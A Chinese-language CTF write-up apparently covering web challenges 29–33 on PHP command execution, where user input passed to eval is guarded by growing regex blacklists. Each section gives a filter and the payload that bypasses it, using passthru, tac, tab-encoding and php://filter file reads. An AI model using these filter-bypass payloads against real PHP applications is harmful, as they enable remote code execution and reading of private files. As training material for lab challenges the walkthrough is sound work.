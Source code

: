 # 命令执行

## web29

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

`/?c=system("ls");`，发现有`flag.php`，题目过滤了flag字符，`payload：/?c=system("cat fl*");`，然后查看源码就行。

## web30

```php
preg_match("/flag|system|php/i", $c)
```

`system`被过滤了，用`passthru`替换，`payload：/?c=passthru("cat fl*");`

## web31

```php
preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)
```

`cat`被过滤了，用`tac`替换，空格也过滤了，用`%09`绕过，`payload：/?c=passthru("tac%09fl*");`

## web32

```php
preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)
```

又过滤了`;`，用`?>`替换，连括号都过滤了，那只能用无括号函数，这里用include文件包含并且二次传参，`payload：/?c=include"$_GET[0]"?>&0=php://filter/read=convert.base64-encode/resource=flag.php`，最后进行base64解码

## web33

```php
preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)
```

又多过滤了一个双引号，将上一题的双引号去掉就行。`payload：/?c=include$_GET[0]?>&0=php://filter/read=convert.base64-encode/resource=flag.php`
